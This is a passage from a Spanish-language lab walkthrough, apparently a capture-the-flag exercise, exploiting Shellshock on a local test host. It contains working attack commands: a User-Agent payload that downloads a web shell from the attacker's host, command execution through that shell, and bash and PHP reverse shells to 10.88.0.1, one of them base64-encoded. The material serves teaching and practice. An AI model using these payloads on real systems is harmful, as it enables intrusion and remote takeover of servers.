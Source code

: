 ~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/rce.php -o exec.php"
~~~

En nuestro servidor que iniciamos con `python` deberíamos ver un `GET` a nuestro archivo `rce.php`

![[Pasted image 20241105231215.png]]


## Remote Code Execution

Ahora mediante la web accedemos al archivo `rce.php`, podemos hacerlo o bien desde la web o mediante `curl`

~~~ bash
curl -X GET http://bruteshock.local/pruebasUltraSecretas/exec.php\?cmd=id
~~~

![[Pasted image 20241105231441.png]]

![[Pasted image 20241105131749.png]]

## Reverse Shell

Podemos intentar enviarnos una `shell` mediante este parámetro, para ello modificaremos el siguiente payload

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

![[Pasted image 20241105232028.png]]

Nota que cambié el caracter `&` por `%26` para que pueda ejecutarse correctamente en el servidor

![[Pasted image 20241105231953.png]]

Si entramos de esta forma al poco tiempo de establecer la `shell`, nos concluye la conexión, esto puede ser porque el servidor está bloqueando ciertos tipos de conexiones

Usaremos una `reverse shell` con `php` para no depender de un TTY, el comando sería el siguiente

~~~ bash
php -r '$sock=fsockopen("10.88.0.1",4444);exec("/bin/bash -i <&2 >&3 2>&4");'
~~~

Pero tampoco podremos ejecutarlo directamente, es por eso que una opción sería usar `base64` para primero decodificar la `shell` y luego interpretarla en el servidor

~~~ bash
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=" | base64 -d | bash
~~~

**Hagamos unas pruebas antes de establecer la `shell`, primero necesitamos entender que debemos modificar la URL para que nuestra explotación pueda acontecerse**
